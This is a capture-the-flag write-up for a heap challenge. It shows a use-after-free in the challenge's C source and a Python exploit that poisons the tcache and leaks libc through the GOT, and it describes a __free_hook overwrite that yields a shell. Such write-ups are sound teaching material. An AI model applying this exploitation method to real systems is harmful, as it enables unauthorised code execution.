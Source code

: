 ## Files
- worstcodeever
- worstcodeever.c
- Makefile
- libc-2.27&#46;so

## Solution
```
$ checksec worstcodeever
[*] '/home/darin/ctfs/red-2020/worstcodeever/worstcodeever'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Looking at the source, we are allowed to choose from 4 different options, a maximum of 50 times. The libc version is 2.27, which implies the use of tcache with no security checks. Note that we can not control the size of the allocations, but the pointers are not nulled after removing a friend, so there is a use-after-free and double-free vulnerability.

```c
if (friend_type[index] != 0)
    free(friend_list[index]->identity.name);
free(friend_list[index]);
// friend_type[index] NOT set to NULL!
```

We are allowed to edit our friends after they are freed, meaning that we can easily control the `fd` pointers on the tcache.

Since the binary does not use Full RELRO, we can leak a libc pointer from the GOT. Since we can only have 10 friends, I tried to minimize the number of friends we needed to make (just like real life).

```python
add_robot(0x41414141, 0x42424242)
add_robot(0x41414141, 0x42424242)
remove_friend(1)
edit_robot(1, exe.sym["friend_list"], 0x42424242)
add_robot(0x41414141, 0x42424242)
add_robot(exe.got["setvbuf"], 0x42424242)
display_friend(0)
r.recvuntil("barcode tag: ")
libc.address = int(r.recvline()) - libc.sym["setvbuf"]
log.info(f"LIBC @ 0x{libc.address:x}")
```

By getting `malloc()` to return a pointer at `friend_list`, we can simply edit friend number 3 to write an arbitrary pointer to `friend_list[0]`, then edit friend number 0 to write an arbitrary value to that pointer, all without creating any new friends. This first step set the value of friend 0 to `setvbuf@GOT`, and then displays friend 0 to leak a libc address. Overwriting `__free_hook` with a one gadget and removing a friend gives a shell.
